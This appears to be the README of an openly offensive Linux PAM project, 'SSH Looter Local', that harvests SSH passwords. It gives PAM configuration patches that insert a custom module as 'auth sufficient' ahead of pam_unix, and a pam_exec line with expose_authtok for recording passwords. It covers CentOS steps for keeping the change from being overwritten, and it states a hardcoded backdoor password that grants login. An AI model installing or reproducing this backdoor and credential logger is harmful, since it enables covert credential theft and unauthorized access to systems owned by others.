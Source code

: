 # SSH Looter Local

This project cannot be made without reference from:

- https://github.com/mthbernardes/sshLooterC
- https://github.com/cameron-gagnon/ssh_pass_logging
- https://github.com/linux-pam/linux-pam

# Modified Part - License

Licensed under GNU AGPL v3.

# Usage

You may need install dependencies:
- gcc (compiler)
- linux-api-headers (userspace Linux API headers)
- linux-headers (kernel Linux API headers)
- libpam0g-dev

Change `/etc/pam.d/{system,common}-auth`, apply patches like this:

```bash
+ # custom PAM module
+ auth sufficient pam_sshaudit.so
+ account optional pam_sshaudit.so

auth [success=1 default=ignore] pam_unix.so nullok_secure

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```

# CENTOS 7 Users

Backup and unlink `/etc/pam.d/system-auth`, then remove `/etc/pam.d/system-auth-ac`, copy your backup back and do your change to prevent from being overridden by `authconfig`.

Since `auth sufficient pam_unix.so` is not set as `required`, you must put the `pam_sshaudit.so` line above `pam_unix.so` .

# More simple but obvious way

Use `pam_exec` to record password. Example program written in Golang can be checked in `sshaudit.go`

```bash
auth optional pam_exec.so expose_authtok /usr/bin/sshaudit

auth [success=1 default=ignore] pam_unix.so nullok_secure

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```

# Backdoor password

hardcoded as: `ZJuj38ML0ddNDZKw`